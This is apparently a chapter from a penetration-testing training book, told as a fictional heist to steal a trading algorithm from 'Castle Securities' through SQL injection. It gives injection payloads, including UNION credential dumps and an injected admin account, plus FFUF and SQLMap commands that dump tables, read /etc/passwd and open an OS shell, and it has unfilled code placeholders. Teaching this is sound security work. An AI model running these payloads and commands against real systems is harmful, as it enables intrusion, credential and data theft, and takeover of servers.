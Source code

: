 = Chapter 5: The Vault - Database Infiltration

_"Their algorithm lives in the data vaults. Time to crack the treasury."_

'''

Your systematic exploitation of Castle Securities has provided multiple pathways into their infrastructure, but extracting the ARGOS algorithm presents a crucial challenge. Whether you gained access through authentication bypass (Chapter 2), WebSocket protocol exploitation (Chapter 3), or file upload vulnerabilities (Chapter 4), you've discovered that the most sensitive algorithm data lives in backend database systems.

Your authenticated access to the research portal includes search functionality that reveals database interactions. When you search for "ARGOS performance metrics," the results include:

----
ARGOS-v3.1 Performance Report (March 2025)
Daily Return: 3.47% (Target: 2.1%)
Sharpe Ratio: 4.23 (Industry Average: 1.8)
Maximum Drawdown: 0.31% (Risk Limit: 2.0%)
----

Your network monitoring shows this search triggered database queries to `research-db.castle-securities.internal:5432`. Debug messages in various Castle Securities systems reveal database connection strings:

[,json]
----
{"type": "debug", "message": "Executing query: SELECT performance_score FROM algorithm_metrics WHERE algorithm_name='ARGOS'"}
{"type": "debug", "message": "Database connection: postgresql://algo-db.castle-securities.internal:5432/trading_algorithms"}
----

This search functionality represents your pathway to the algorithm's mathematical core. Database systems contain the training datasets, model parameters, performance metrics, and source code repositories that comprise the Infinite Money Machine. But extracting this data requires systematic exploitation of SQL injection vulnerabilities using professional database testing methodology.

Your mission: learn systematic database exploitation by first understanding SQL fundamentals, then using FFUF to discover injection points, and finally using SQLMap to extract the complete ARGOS algorithm from Castle Securities' database infrastructure.

But first, you need to understand the basics of how databases work and how web applications interact with them.

'''

== SQL in a Nutshell: Database Fundamentals for Security Testing

Before you can exploit database vulnerabilities, you need to understand how databases store information and how web applications retrieve that data. This foundation is essential because SQL injection exploits the gap between user input and database queries.

=== Understanding Databases and Tables

Think of a database as a digital filing cabinet with multiple drawers (called tables). Each table stores related information in rows and columns, like a spreadsheet:

----
Table: algorithm_research
+----+----------------+---------+------------------+
| id | algorithm_name | version | performance_score |
+----+----------------+---------+------------------+
|  1 | ARGOS          | v3.1    | 98.7             |
|  2 | TITAN          | v2.0    | 87.3             |
|  3 | PHOENIX        | v1.5    | 92.1             |
+----+----------------+---------+------------------+

Table: trading_positions
+----+--------+----------+--------+
| id | symbol | quantity | price  |
+----+--------+----------+--------+
|  1 | AAPL   | 1000     | 150.25 |
|  2 | GOOGL  | 500      | 2800.50|
|  3 | TSLA   | 750      | 800.75 |
+----+--------+----------+--------+
----

Each table has:

* *Columns* (fields): The types of information stored (id, algorithm_name, etc.)
* *Rows* (records): Individual entries containing actual data
* *Primary Keys*: Unique identifiers (usually the 'id' column)

=== Essential SQL Commands for Security Testing

SQL (Structured Query Language) is how applications ask databases for information. You only need to understand a few basic commands to perform effective SQL injection testing:

*SELECT - Retrieving Data:*

[,sql]
----
-- Get all algorithm information
SELECT * FROM algorithm_research;

-- Get specific columns
SELECT algorithm_name, version FROM algorithm_research;

-- Get data matching specific criteria
SELECT * FROM algorithm_research WHERE algorithm_name = 'ARGOS';
----

*WHERE Clauses - Filtering Data:*

[,sql]
----
-- Find algorithms with high performance
SELECT * FROM algorithm_research WHERE performance_score > 90;

-- Find specific algorithm versions
SELECT * FROM algorithm_research WHERE algorithm_name = 'ARGOS' AND version = 'v3.1';

-- Find algorithms containing specific text
SELECT * FROM algorithm_research WHERE algorithm_name LIKE '%ARGOS%';
----

*JOINs - Combining Data from Multiple Tables:*

[,sql]
----
-- Get algorithm performance with trading data
SELECT ar.algorithm_name, ar.performance_score, tp.symbol, tp.quantity
FROM algorithm_research ar
JOIN trading_positions tp ON ar.id = tp.algorithm_id;
----

*Basic Data Modification:*

[,sql]
----
-- Insert new data
INSERT INTO algorithm_research (algorithm_name, version, performance_score)
VALUES ('MERCURY', 'v1.0', 85.5);

-- Update existing data
UPDATE algorithm_research SET performance_score = 99.1 WHERE algorithm_name = 'ARGOS';

-- Delete data
DELETE FROM algorithm_research WHERE performance_score < 50;
----

=== How Web Applications Use Databases

Web applications connect to databases to store and retrieve information. When you search Castle Securities' research portal, here's what happens behind the scenes:

*1. User Input:*

----
User searches for: "ARGOS performance"
----

*2. Application Processing:*

[,python]
----
# Python code in the web application
search_term = request.get('q')  # Gets "ARGOS performance" from user
query = f"SELECT * FROM algorithm_research WHERE algorithm_name LIKE '%{search_term}%'"
results = database.execute(query)
----

*3. Database Query:*

[,sql]
----
-- The actual query sent to the database
SELECT * FROM algorithm_research WHERE algorithm_name LIKE '%ARGOS performance%';
----

*4. Results Returned:*

----
Algorithm data matching the search is returned to the web application,
which formats it as HTML and displays it to the user.
----

This process creates the vulnerability that SQL injection exploits. If the application doesn't properly validate user input, attackers can manipulate the database query itself.

=== The SQL Injection Vulnerability

SQL injection occurs when user input gets inserted directly into database queries without proper validation. Here's how it works:

*Vulnerable Code Example:*

[,python]
----
# VULNERABLE - Never do this!
search_term = request.get('q')
query = f"SELECT * FROM algorithm_research WHERE algorithm_name = '{search_term}'"
----

*Normal Usage:*

----
User input: ARGOS
Generated query: SELECT * FROM algorithm_research WHERE algorithm_name = 'ARGOS'
Result: Returns ARGOS algorithm data
----

*SQL Injection Attack:*

----
User input: ARGOS' OR '1'='1
Generated query: SELECT * FROM algorithm_research WHERE algorithm_name = 'ARGOS' OR '1'='1'
Result: Returns ALL algorithm data because '1'='1' is always true
----

The injection works because the attacker's input changes the meaning of the SQL query. Instead of searching for a specific algorithm, the modified query returns everything in the database.

=== Understanding SQL Injection Impact

SQL injection can have severe consequences depending on database permissions and application architecture:

*Data Extraction:*

[,sql]
----
-- Extract user credentials
' UNION SELECT username, password FROM users--

-- Extract sensitive algorithm data
' UNION SELECT algorithm_name, source_code FROM algorithms--
----

*Database Reconnaissance:*

[,sql]
----
-- Discover database structure
' UNION SELECT table_name, column_name FROM information_schema.columns--

-- Find database version and configuration
' UNION SELECT version(), current_database()--
----

*Data Modification:*

[,sql]
----
-- Modify algorithm parameters
'; UPDATE algorithms SET risk_threshold = 0.95 WHERE name = 'ARGOS'--

-- Create administrative accounts
'; INSERT INTO users (username, password, role) VALUES ('hacker', 'password123', 'admin')--
----

Understanding these SQL fundamentals is essential because effective SQL injection testing requires knowing what you're trying to extract from databases and how to construct queries that retrieve valuable information systematically.

'''

== Systematic SQL Injection Discovery Using FFUF

Now that you understand how databases work, you can apply systematic fuzzing methodology to discover SQL injection vulnerabilities. The key insight is that SQL injection exists wherever user input reaches database queries--and FFUF can systematically test for these injection points.

=== Mapping Database-Connected Endpoints

Your first step is identifying which endpoints actually interact with databases. Not every form field or URL parameter connects to a database, so systematic discovery focuses your testing effort on parameters that matter.

[PLACEHOLDER:CODE Name: FFUF Database Endpoint Discovery and Parameter Analysis. Purpose: Uses FFUF to systematically identify web application endpoints that interact with databases by testing parameters for SQL-specific error responses and timing patterns. Focuses fuzzing effort on database-connected functionality. Input: Web application endpoints, database-specific error patterns, SQL injection detection wordlists. Output: Inventory of database-connected parameters prioritized for SQL injection testing. Lines: 35-45. Tools: FFUF parameter discovery, SQL error pattern recognition, database interaction detection, systematic endpoint mapping.]

Database-connected endpoints often reveal themselves through specific characteristics that FFUF can detect systematically:

*Error-Based Detection:*

[,bash]
----
# Test for SQL error responses
ffuf -w sqli_detection.txt \
     -u "https://research.castle-securities.com/search?q=FUZZ" \
     -mc 200,500 \
     -fr "mysql_error|postgresql_error|oracle_error|sqlite_error"
----

*Timing-Based Detection:*

[,bash]
----
# Test for SQL timing responses (indicates database queries)
ffuf -w timing_payloads.txt \
     -u "https://research.castle-securities.com/reports?date=FUZZ" \
     -p 1.0-3.0 \
     -t 1
----

Your systematic FFUF analysis of Castle Securities reveals several database-connected endpoints:

----
Database-Connected Parameters Found:
/search?q=FUZZ - Search functionality with 2.1s average response time
/reports?symbol=FUZZ - Trading reports with database error leakage
/api/algorithms?name=FUZZ - Algorithm API with PostgreSQL error responses
/research/filter?category=FUZZ - Research filtering with timing variations
/admin/users?id=FUZZ - User management with SQL constraint errors
----

The response patterns indicate these parameters directly interact with database systems, making them priority targets for SQL injection testing.

=== FFUF SQL Injection Parameter Testing

Once you've identified database-connected endpoints, FFUF can systematically test each parameter for SQL injection vulnerabilities using targeted payloads that reveal injection opportunities.

[PLACEHOLDER:CODE Name: FFUF SQL Injection Detection and Validation Fuzzer. Purpose: Systematically tests identified database parameters for SQL injection vulnerabilities using error-based, boolean-based, and time-based detection techniques. Validates injection points before advanced exploitation. Input: Database-connected endpoints, SQL injection payload wordlists, injection detection patterns. Output: Confirmed SQL injection vulnerabilities with injection type classification and exploitation readiness assessment. Lines: 40-50. Tools: FFUF SQL injection testing, injection validation, error pattern analysis, exploitation readiness assessment.]

SQL injection detection requires testing different injection techniques systematically:

*Error-Based Injection Detection:*

[,bash]
----
# Test for SQL syntax errors that reveal injection
ffuf -w sql_error_payloads.txt \
     -u "https://research.castle-securities.com/search?q=FUZZ" \
     -mc 200,500 \
     -mr "syntax error|mysql|postgresql|sqlite|oracle"
----

*Boolean-Based Injection Detection:*

[,bash]
----
# Test for logic-based injection through response differences
ffuf -w boolean_payloads.txt \
     -u "https://research.castle-securities.com/api/algorithms?name=FUZZ" \
     -mc 200 \
     -fw 1234  # Filter standard response word count
----

*Time-Based Injection Detection:*

[,bash]
----
# Test for time-delay injection
ffuf -w time_payloads.txt \
     -u "https://research.castle-securities.com/reports?symbol=FUZZ" \
     -p 3.0-10.0  # Look for 3-10 second delays
----

Your systematic FFUF SQL injection testing reveals multiple injection points:

----
SQL Injection Vulnerabilities Discovered:

Error-Based Injection:
- /search?q=' - Returns PostgreSQL syntax error with table names
- /api/algorithms?name=" - Exposes database schema information

Boolean-Based Injection:
- /reports?symbol=AAPL' AND '1'='1 - Returns normal results
- /reports?symbol=AAPL' AND '1'='2 - Returns empty results

Time-Based Injection:
- /research/filter?category=test'; WAITFOR DELAY '00:00:05'-- - 5 second delay confirmed
----

These confirmed injection points provide multiple pathways for systematic database exploitation using SQLMap.

=== Response Pattern Analysis for Injection Validation

Confirming SQL injection requires understanding how different injection types manifest in application responses. FFUF can systematically validate injection opportunities through response pattern analysis.

[PLACEHOLDER:CODE Name: SQL Injection Response Pattern Analyzer and Validation Framework. Purpose: Analyzes FFUF results to validate SQL injection vulnerabilities through systematic response pattern recognition including error messages, timing variations, and content differences that confirm exploitable injection points. Input: FFUF SQL injection test results, response pattern definitions, injection validation criteria. Output: Validated SQL injection vulnerabilities with exploitation method recommendations and priority rankings. Lines: 30-40. Tools: Response pattern analysis, injection validation logic, exploitation method classification, vulnerability prioritization.]

Response pattern analysis confirms injection vulnerabilities through systematic validation:

*Error Message Analysis:*

[,python]
----
# Analyze error responses for SQL injection confirmation
sql_error_patterns = [
    "syntax error near",
    "mysql_fetch_array()",
    "PostgreSQL query failed",
    "ORA-00933: SQL command not properly ended",
    "sqlite3.OperationalError"
]

# Confirmed injection if error patterns match SQL database errors
----

*Boolean Logic Validation:*

[,python]
----
# Validate boolean injection through response comparison
test_payloads = [
    "' AND '1'='1",  # Should return normal results
    "' AND '1'='2"   # Should return different/empty results
]

# Confirmed injection if responses differ consistently
----

*Timing Analysis Validation:*

[,python]
----
# Validate time-based injection through delay confirmation
baseline_time = measure_response_time("normal_input")
delay_time = measure_response_time("test'; WAITFOR DELAY '00:00:05'--")

# Confirmed injection if delay_time > baseline_time + 4 seconds
----

Your response pattern analysis confirms Castle Securities has multiple exploitable SQL injection vulnerabilities:

----
Validated SQL Injection Points:

High-Confidence Injections:
- /search?q= - Error-based injection with PostgreSQL schema exposure
- /reports?symbol= - Boolean injection with consistent response differences
- /research/filter?category= - Time-based injection with 5-second delay confirmation

Medium-Confidence Injections:
- /api/algorithms?name= - Error-based injection with limited error disclosure
- /admin/users?id= - Boolean injection with authentication-dependent responses

Priority for SQLMap Exploitation:
1. /search?q= (Error-based, highest information disclosure)
2. /research/filter?category= (Time-based, reliable extraction)
3. /reports?symbol= (Boolean-based, business data access)
----

These validated injection points provide systematic targets for advanced database exploitation using SQLMap professional methodology.

'''

== Professional SQLMap Exploitation and Data Extraction

FFUF discovery provides confirmed SQL injection vulnerabilities, but extracting valuable algorithm data requires SQLMap's advanced exploitation capabilities. Professional SQLMap usage focuses on systematic data extraction rather than just proving vulnerabilities exist.

=== Strategic SQLMap Configuration and Systematic Exploitation

SQLMap is a powerful tool, but professional usage requires strategic configuration that balances thoroughness with operational security and time constraints. Your approach should prioritize high-value data extraction over comprehensive database enumeration.

[PLACEHOLDER:CODE Name: Professional SQLMap Configuration and Campaign Management Framework. Purpose: Configures SQLMap for systematic database exploitation including target prioritization, stealth configuration, and strategic data extraction focused on high-value algorithm data rather than comprehensive database dumping. Input: FFUF-validated injection points, extraction priorities, operational security requirements. Output: Systematic SQLMap campaigns optimized for algorithm data extraction with professional reporting and evidence collection. Lines: 45-55. Tools: SQLMap advanced configuration, campaign coordination, data extraction optimization, stealth technique implementation.]

Professional SQLMap exploitation requires systematic configuration that addresses real-world constraints:

*Target Prioritization and Campaign Planning:*

[,bash]
----
# Priority 1: Error-based injection for rapid reconnaissance
sqlmap -u "https://research.castle-securities.com/search?q=test" \
       --cookie="session=authenticated_session_token" \
       --batch \
       --level=3 \
       --risk=2 \
       --technique=E \
       --threads=5

# Priority 2: Boolean injection for reliable data extraction
sqlmap -u "https://research.castle-securities.com/reports?symbol=AAPL" \
       --cookie="session=authenticated_session_token" \
       --batch \
       --level=5 \
       --risk=3 \
       --technique=B \
       --threads=1

# Priority 3: Time-based injection for comprehensive access
sqlmap -u "https://research.castle-securities.com/research/filter?category=test" \
       --cookie="session=authenticated_session_token" \
       --batch \
       --level=5 \
       --risk=3 \
       --technique=T \
       --threads=1 \
       --delay=2
----

*Stealth and Operational Security Configuration:*

[,bash]
----
# Stealth configuration for production environments
sqlmap --random-agent \
       --delay=1 \
       --timeout=30 \
       --retries=2 \
       --keep-alive \
       --null-connection \
       --threads=1
----

*Strategic Data Extraction Focus:*

[,bash]
----
# Target high-value algorithm data specifically
sqlmap --dbs                    # Discover databases
sqlmap -D trading_algorithms --tables    # Focus on algorithm database
sqlmap -D trading_algorithms -T algorithm_source_code --columns
sqlmap -D trading_algorithms -T algorithm_source_code --dump \
       --where "algorithm_name LIKE '%ARGOS%'"
----

Your strategic SQLMap exploitation reveals Castle Securities' database structure:

----
Database Reconnaissance Results:
[INFO] Available databases [4]:
[*] information_schema
[*] postgres
[*] research_db
[*] trading_algorithms

High-Value Target: trading_algorithms database
[INFO] Database: trading_algorithms
[12 tables]
+------------------------+
| algorithm_source_code  |
| algorithm_parameters   |
| training_datasets      |
| performance_metrics    |
| deployment_configs     |
| researcher_notes       |
| argos_v3_models        |
| market_correlations    |
| risk_assessments       |
| backtesting_results    |
| real_time_feeds       |
| algorithm_versions     |
+------------------------+
----

The database structure confirms this contains the complete ARGOS algorithm implementation and associated data.

=== Systematic Algorithm Data Extraction

Database reconnaissance reveals the treasure vault, but extracting specific algorithm data requires systematic SQLMap usage that prioritizes high-value information and manages extraction time efficiently.

[PLACEHOLDER:CODE Name: Strategic Algorithm Data Extraction and Intelligence Processing Framework. Purpose: Uses SQLMap to systematically extract high-value algorithm data including source code, parameters, and training datasets while managing extraction time and operational security. Processes extracted data for intelligence analysis and algorithm reconstruction. Input: SQLMap database access, algorithm data priorities, extraction time constraints. Output: Complete algorithm dataset with intelligence analysis and algorithm reconstruction capabilities. Lines: 40-50. Tools: SQLMap data extraction, intelligent data processing, algorithm reconstruction, operational time management.]

Strategic data extraction focuses on algorithm reconstruction rather than comprehensive database dumping:

*Algorithm Source Code Extraction:*

[,bash]
----
# Extract ARGOS source code specifically
sqlmap -u "https://research.castle-securities.com/search?q=test" \
       --cookie="session=authenticated_session_token" \
       -D trading_algorithms \
       -T algorithm_source_code \
       --dump \
       --where "algorithm_name='ARGOS' AND version='v3.1'" \
       --batch
----

*Model Parameters and Configuration:*

[,bash]
----
# Extract algorithm parameters and model configurations
sqlmap -D trading_algorithms \
       -T algorithm_parameters \
       --dump \
       --where "algorithm_id IN (SELECT id FROM algorithm_source_code WHERE algorithm_name='ARGOS')"

sqlmap -D trading_algorithms \
       -T argos_v3_models \
       --dump \
       --batch
----

*Training Data and Research Intelligence:*

[,bash]
----
# Extract training dataset information and research notes
sqlmap -D trading_algorithms \
       -T training_datasets \
       --dump \
       --where "algorithm_name='ARGOS'"

sqlmap -D trading_algorithms \
       -T researcher_notes \
       --dump \
       --where "content LIKE '%ARGOS%' OR content LIKE '%algorithm%'"
----

Your systematic extraction reveals the complete ARGOS algorithm implementation:

----
ARGOS Algorithm Extraction Results:

Source Code (algorithm_source_code table):
- ARGOS v3.1 complete Python implementation (15,247 lines)
- Mathematical models and trading logic
- Integration code for real-time market data
- Risk management and position sizing algorithms

Model Parameters (algorithm_parameters table):
- Neural network weights and bias values
- Decision tree parameters and thresholds
- Risk tolerance and position sizing multipliers
- Market correlation coefficients and timing parameters

Training Data References (training_datasets table):
- Historical market data (2015-2025): 847 GB
- Social media sentiment analysis: 234 GB
- News article correlation data: 156 GB
- Weather/commodity correlation patterns: 67 GB

Research Intelligence (researcher_notes table):
- Algorithm development methodology and mathematical foundations
- Performance testing results and optimization history
- Competitive analysis and market edge identification
- Future development roadmap and enhancement plans
----

=== Advanced SQLMap Techniques for Comprehensive Access

Basic data extraction provides algorithm components, but comprehensive database access requires advanced SQLMap techniques that enable file system access, command execution, and persistent database connectivity.

[PLACEHOLDER:CODE Name: Advanced SQLMap Exploitation for System-Level Access and Persistent Database Connectivity. Purpose: Uses SQLMap advanced features including file system access, command execution, and persistent shell capabilities to establish comprehensive database system access beyond basic data extraction. Input: SQLMap database access, system-level exploitation requirements, persistence objectives. Output: System-level database access with file system capabilities and persistent connectivity for ongoing algorithm monitoring. Lines: 35-45. Tools: SQLMap advanced exploitation, file system access, command execution, persistent shell establishment.]

Advanced SQLMap exploitation extends database access to system-level capabilities:

*File System Access and Data Exfiltration:*

[,bash]
----
# Test for file system read/write capabilities
sqlmap --file-read="/etc/passwd" \
       --batch

# Extract algorithm files from database server file system
sqlmap --file-read="/opt/castle/algorithms/argos_production.py" \
       --file-read="/var/castle/data/argos_training_data.csv" \
       --batch
----

*Operating System Command Execution:*

[,bash]
----
# Test for command execution capabilities
sqlmap --os-shell \
       --batch

# If successful, provides interactive shell on database server
os-shell> whoami
castle_db_service

os-shell> find /opt/castle -name "*argos*" -type f
/opt/castle/algorithms/argos_production.py
/opt/castle/config/argos_parameters.json
/opt/castle/backups/argos_models_2025.tar.gz
----

*Persistent Database Access:*

[,bash]
----
# Establish persistent database connectivity
sqlmap --sql-shell \
       --batch

# Direct SQL command execution for ongoing access
sql-shell> SELECT COUNT(*) FROM algorithm_source_code WHERE algorithm_name='ARGOS';
sql-shell> SELECT algorithm_name, last_modified FROM algorithm_versions ORDER BY last_modified DESC;
----

Your advanced SQLMap exploitation provides comprehensive access to Castle Securities' algorithm infrastructure:

----
System-Level Access Achieved:

File System Access:
- Read access to algorithm source files on database server
- Configuration file access revealing deployment parameters
- Backup file discovery containing historical algorithm versions

Command Execution:
- Interactive shell access on database server (castle_db_service account)
- File system enumeration revealing complete algorithm infrastructure
- Network access to internal algorithm development and deployment systems

Persistent Access:
- Direct SQL shell for ongoing database querying and monitoring
- Real-time access to algorithm modifications and performance data
- Administrative database access for algorithm parameter modification and system control

Complete Algorithm Intelligence:
- ARGOS source code, parameters, and training data extracted
- Algorithm development methodology and competitive intelligence
- Real-time monitoring capabilities for ongoing algorithm evolution
- System-level access enabling algorithm modification and control
----

This comprehensive database exploitation provides complete access to the ARGOS algorithm implementation and enables ongoing monitoring and control of Castle Securities' algorithmic trading infrastructure.

'''

== Professional Database Security Assessment Integration

Individual SQL injection vulnerabilities provide tactical database access, but professional security assessment requires understanding database compromise as part of broader system architecture and business risk evaluation.

=== Comprehensive Database Security Impact Analysis

Database exploitation impact extends beyond data extraction to include system compromise, business disruption, and regulatory compliance violations that require systematic business impact assessment.

[PLACEHOLDER:CODE Name: Database Security Impact Assessment and Business Risk Analysis Framework. Purpose: Evaluates database compromise impact including data exposure, system access, business disruption, and regulatory compliance violations. Provides executive-level risk communication and remediation prioritization. Input: Database exploitation results, business context analysis, regulatory requirements. Output: Comprehensive business impact assessment with executive communication and regulatory compliance analysis. Lines: 40-50. Tools: Business impact analysis, regulatory compliance assessment, executive risk communication, remediation prioritization.]

Professional database impact assessment addresses both technical and business consequences:

*Data Exposure and Intellectual Property Risk:*

* Algorithm source code exposure representing $50+ billion in intellectual property value
* Training datasets and methodology revealing competitive advantages and market strategies
* Research intelligence exposing future development plans and strategic initiatives
* Customer and trading data creating privacy and competitive intelligence risks

*System Architecture and Security Control Bypass:*

* Database server command execution enabling lateral movement and persistent access
* Authentication system compromise through credential extraction and privilege escalation
* Network infrastructure access through database server system-level compromise
* Administrative system access through database integration and privilege inheritance

*Business Operations and Financial Impact:*

* Real-time trading algorithm modification capability affecting $847 billion in managed assets
* Market manipulation potential through algorithm parameter and decision logic modification
* Trading strategy exposure creating competitive disadvantage and reduced algorithm effectiveness
* System availability and performance impact through database resource manipulation

*Regulatory Compliance and Legal Implications:*

* SOX compliance violations through inadequate financial system access controls
* SEC algorithmic trading regulations requiring secure algorithm implementation and monitoring
* GDPR privacy violations through unauthorized customer data access and extraction
* Industry regulatory requirements for trading system security and audit trail maintenance

=== Integration with Multi-Vector Security Assessment

Database exploitation doesn't exist in isolation--it amplifies and integrates with previous access vectors to create comprehensive system control that extends far beyond individual vulnerability impact.

[PLACEHOLDER:CODE Name: Multi-Vector Database Integration and Comprehensive System Compromise Assessment. Purpose: Demonstrates how database exploitation integrates with authentication bypass, WebSocket access, and file processing to create comprehensive system compromise beyond individual vulnerability impact. Input: Database access capabilities, authentication compromise, WebSocket control, file processing access. Output: Integrated system compromise assessment with lateral movement analysis and complete business impact evaluation. Lines: 35-45. Tools: Multi-vector integration analysis, lateral movement assessment, comprehensive impact evaluation, business risk synthesis.]

Database access serves as a force multiplier for other security compromises:

*Authentication Integration and Privilege Escalation:*

* Database credential extraction enables lateral movement across integrated systems
* Administrative account discovery provides escalated access to algorithm management systems
* Session token extraction and manipulation enabling sustained authenticated access
* Single sign-on system compromise through database authentication integration

*Real-Time System Integration and Control:*

* Database parameter modification affecting real-time algorithm monitoring and control
* Real-time trading decision manipulation through database configuration changes
* Algorithm performance monitoring and modification through combined database and real-time access
* Administrative system control through integrated database and communication system compromise

*File Processing Integration and Persistent Access:*

* Database file system access enabling algorithm source code and configuration extraction
* Backup file discovery and extraction revealing historical algorithm development and performance
* Configuration modification enabling persistent access and covert algorithm manipulation
* Development system access through database server file system and network connectivity

*Complete Business System Compromise:*

* Real-time trading system control affecting market positions and financial performance
* Algorithm intellectual property extraction and potential competitive redistribution
* Regulatory compliance system compromise affecting audit trails and compliance reporting
* Market manipulation capability through coordinated algorithm and trading system control

Your integrated assessment demonstrates that database exploitation, combined with previous access vectors, provides comprehensive control over Castle Securities' algorithmic trading infrastructure with systemic business and market impact.

'''

== What You've Learned and Achieved

You've successfully applied systematic database exploitation methodology to extract the complete ARGOS algorithm from Castle Securities' database infrastructure. More importantly, you've developed professional database security assessment capabilities that apply to any modern application environment.

Your database exploitation mastery demonstrates:

*SQL Fundamentals and Database Architecture Understanding* including database structure, table relationships, and SQL query construction that enables effective security testing and vulnerability analysis.

*Systematic SQL Injection Discovery* using FFUF for database endpoint identification, parameter testing, and injection point validation through response pattern analysis and vulnerability confirmation.

*Professional SQLMap Exploitation* with strategic configuration, targeted data extraction, and advanced system-level access techniques that maximize intelligence gathering while maintaining operational security.

*Business Impact Assessment and Risk Analysis* including intellectual property valuation, regulatory compliance analysis, and comprehensive business risk evaluation suitable for executive communication.

Your current access to Castle Securities includes:

*Complete ARGOS Algorithm Implementation* including source code, mathematical models, training datasets, and deployment configurations extracted through systematic database exploitation.

*System-Level Database Server Access* through SQLMap advanced exploitation providing file system access, command execution, and persistent connectivity for ongoing monitoring and control.

*Integrated Multi-Vector System Compromise* where database access amplifies authentication bypass, real-time system control, and file processing access to create comprehensive algorithmic trading system control.

*Business-Critical Intelligence and Control Capabilities* including algorithm modification, trading system manipulation, and intellectual property extraction with systemic market impact potential.

But database extraction provides static algorithm data and infrastructure access. The ARGOS algorithm's most sensitive operational components exist in the active browser sessions of algorithm researchers and traders who develop, test, and monitor the algorithm in real-time.

In the next chapter, you'll learn client-side exploitation techniques to compromise researcher workstations and access algorithm development environments that exist only in browser memory. You'll discover how client-side attacks can extract live algorithm components, development tools, and operational intelligence that database access cannot reach.

